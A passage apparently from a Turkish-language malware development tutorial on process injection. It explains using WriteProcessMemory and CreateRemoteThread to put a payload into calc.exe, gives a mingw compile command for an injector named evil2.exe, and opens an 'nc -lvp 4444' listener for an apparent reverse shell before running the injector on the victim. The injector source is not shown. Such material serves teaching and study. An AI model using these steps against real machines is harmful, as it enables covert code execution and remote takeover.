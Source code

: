 Daha sonra, `WriteProcessMemory` kullanarak işlemler arasında veri kopyalayabilirsiniz, yani payload'u `calc.exe` işlemine kopyalayın **(2)**. Ve `CreateRemoteThread`, `CreateThread` fonksiyonuna benzer, ancak bu fonksiyonda hangi işlemin yeni bir thread başlatacağını belirtebilirsiniz **(3)**.

Şimdi bu kodu derleyelim:    

```bash
x86_64-w64-mingw32-gcc evil_inj.cpp -o evil2.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc
```

![compile code injection](./images/6/2021-09-19_00-36.png){width="75%"}

dinleyiciyi hazırlayalım:
```bash
nc -lvp 4444
```

ve ilk önce hedef makinesinde `calc.exe` çalıştıralım:    

![run victim's process](./images/6/2021-09-19_00-40.png){width="75%"}

`calc.exe`'nin işlem kimliğinin (PID) 1844 olduğunu görebiliriz.    
Daha sonra hedef makinede enjektörümüzü çalıştırın:

